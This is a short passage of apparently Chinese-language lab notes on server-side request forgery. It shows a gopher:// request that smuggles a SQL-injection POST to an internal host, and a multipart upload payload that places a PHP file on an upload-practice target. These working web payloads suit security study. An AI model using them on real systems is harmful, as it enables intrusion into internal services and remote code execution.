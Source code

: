 ![image-20240407203908192](././././././././././SSRF/image-20240407203908192.png)

### gopher提交

```xml
gopher://172.250.250.11:80/_POST /Less-11/index.php HTTP/1.1
HOST:172.250.250.11
Content-Type:application/x-www-form-urlencoded
Content_Length: 53
Uname=-1' union select 1,2 #&passwd=123&submit=Submit
```

# 10.SSRF进行文件上传漏洞

multipart/from-data 作为分割符分开POST提交

完整payload

```
POST /Pass-01/index.php HTTP/1.1
HOST:172.250.205.14
Content-Type:multipart/form-data;boundary=----xxxxxxxxxxxxx

------xxxxxxxxxxxxx
Content-Disposition: form-data;name="upload_file";filename="phpinfo.php //根据源代码自定义
Content-Type: image/jpeg"

<?php phpinfo()?>
------xxxxxxxxxxxxx
Content-Disposition: form-data; name="submit" //源代码中的name

上传  //源代码中的value
------xxxxxxxxxxxxx--
```
